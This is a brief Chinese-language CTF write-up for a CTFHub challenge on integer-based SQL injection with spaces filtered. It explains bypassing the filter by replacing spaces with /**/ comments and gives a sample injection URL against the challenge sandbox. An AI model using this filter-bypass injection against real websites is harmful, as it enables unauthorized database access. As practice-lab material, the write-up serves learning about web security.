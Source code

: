 # CTFHUB_过滤空格

## 题目内容

![image-20210822185008421](/home/adian/note/Study_Note/网络安全/CTF/pic/14.png)

## WriteUp
就是整数型注入，但是过滤了空格，有一个小小的waf

使用`/**/`替代空格即可

````
http://challenge-d4b9b4a89c37ac5f.sandbox.ctfhub.com:10800/?id=1/**/and/**/1=1
````

